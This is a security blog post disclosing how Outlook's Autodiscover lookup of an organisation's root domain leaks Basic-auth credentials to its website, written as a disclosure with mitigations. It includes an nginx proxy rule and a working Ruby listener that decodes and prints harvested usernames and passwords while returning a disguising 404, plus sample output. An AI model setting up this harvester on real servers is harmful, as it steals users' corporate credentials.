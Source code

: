 ```yaml
---
title: Obtaining Corporate Credentials via the Autodiscover Circus
description: Obtaining Corporate Credentials via the Autodiscover Circus
date: 2020-09-02
tags: [autodiscover, vulnerabililty]
---
```


# Layout

It's fairly common for an organisation's website to exist outside the organisation's operational security policies. There's a common justification that for many organisations, the website is a marketing landing page and no sensitive data is ever involved. This in turn oftens leads to the prevance of, for example, shared hosting companies holding dozens of compromised Wordpress sites at a time.

We regularly see this when major businesses are compromised. This is unfortunate.

# Autodiscover noise

Anyone who has read the web access log on such a server has probably found themselve Googling what autodiscover.xml is. Here's an example from my own server, of something which may be rare if you have a few users. I grepped an larger organisation's log and found around 1200 hits per day.

```
020/09/02 05:54:40 [error] 385#385: *33613 open() "/var/www/html/autodiscover/autodiscover.xml" failed (2: No such file or directory),
    client: 1.2.3.4, server: lolware.net, request: "POST /autodiscover/autodiscover.xml HTTP/1.1", host: "lolware.net"
```
The reason for this is Microsoft's Autodiscover mechanism. And it's worth noting that while I'm going to talk about Outlook, many mail clients support autodiscover with varying rules and process.

Microsoft have a good technical brief here: [https://support.microsoft.com/en-au/help/3211279/outlook-2016-implementation-of-autodiscover](https://support.microsoft.com/en-au/help/3211279/outlook-2016-implementation-of-autodiscover).

As you can see, step six of the discovery processis "check the root domain". And that tends to be a step that's hit before the issue is settled, usually at step 7 or step 9. You can also see described the triggers and schedules for autodiscover.

A more practical, and digestable article for people not often working with Office 365 can be seen here: [https://practical365.com/exchange-server/fixing-autodiscover-root-domain-lookup-issues-mobile-devices/](https://practical365.com/exchange-server/fixing-autodiscover-root-domain-lookup-issues-mobile-devices/).

I quite like this article as the reference to the web hosting circus will be quite familiar to anyone who has had to support the average shared hosting environment. Those people will be familiar with how common hacked websites are.

# About that hacked webserver

The problem with the autodiscovery situation described is that I can put a redirect in my web server's nginx config:

```
        location /autodiscover/autodiscover.xml {
            proxy_set_header X-Forwarded-For $remote_addr;
            proxy_pass http://localhost:8089;
        }
```

And of course similar options exist for Apache. With this in place, here's a dump of a proxied connection:

```
[2020-09-02 06:09:09] ERROR `/autodiscover/autodiscover.xml' not found.
127.0.0.1 - - [02/Sep/2020:06:09:09 UTC] "POST /autodiscover/autodiscover.xml HTTP/1.0" 404 299
- -> /autodiscover/autodiscover.xml


POST /autodiscover/autodiscover.xml HTTP/1.0
X-Forwarded-For: 1.2.3.4
Host: localhost:8089
Connection: close
Content-Length: 361
Content-Type: text/xml
User-Agent: Outlook/16.0 (16.0.5023.1000; MSI; x86)
X-MS-WL: Outlook/1.0
X-TransactionID: {BA9B4E4B-B8AD-40F0-893A-6A2059ACE7A6}
Authorization: Basic ZXhhbXBsZXVzZXJAbG9sd2FyZS5uZXQ6aW1hZ2luZWFwYXNzd29yZA==

<?xml version="1.0" encoding="UTF-8"?><Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/mobilesync/requestschema/2006"><Request><EMailAddress>exampleuser@lolware.net</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/mobilesync/responseschema/2006</AcceptableResponseSchema></Request></Autodiscover>
```

What's crucial here is that as long as the server doesn't immediately reject the connection with a 404, the connecting client sends a discovery request that *includes an Authorization header*. The below code can take advantage of this:

```ruby
#!/usr/bin/env ruby
# Reference: https://www.igvita.com/2007/02/13/building-dynamic-webrick-servers-in-ruby/
require 'webrick'
require 'base64'

class Echo < WEBrick::HTTPServlet::AbstractServlet
  def do_POST(request, response)
    auth = request['Authorization']
    m = auth.match(/Basic (.+)/)
    if m
      puts "Credential Dump: " + Base64.decode64(m[1])
    end

    # Present a friendly normal "not here" to the connection
    response.status = 404
  end
end

server = WEBrick::HTTPServer.new(:Port => 8089)
server.mount "/", Echo
trap "INT" do server.shutdown end
server.start



```

# Secure Corporate Assets. Insecure website. User Passwords Dumped Anyway

Now obviously before I wrote this blog, I setup a temporary account and connected Outlook. Running the above code on my server started pumping this sort of content to the console.

```ruby
$ ./webrickprint.rb
[2020-09-02 06:41:19] INFO  WEBrick 1.4.2
[2020-09-02 06:41:19] INFO  ruby 2.6.5 (2019-10-01) [x86_64-linux]
[2020-09-02 06:41:19] INFO  WEBrick::HTTPServer#start: pid=323527 port=8089
Credential Dump: exampleuser@lolware.net:thiscouldbeyourpassword
```

# Mitigations

Microsoft's article discusses the *ExcludeHttpRedirect* registry key, but for most cases it's not a solution as it won't impact mobile users or anyone not using your exact version of Outlook on a corporate device.

The most approachable I've come up with is that a redirect can be put in place upstream if you use a service like Cloudflare. The following page rule takes this URL out of the hands of a web host by redirecting the connection to the correct place.


![Autodiscover rule](/media/images/autodiscoverpagerule.png)

The practical365 site states "the root domain lookup makes absolutely no sense to me" and any attempt to read a discussion on the issue will lead you to plenty of discussion of this as nonsense. Unfortunately for as long as this priority exists, this problem will.


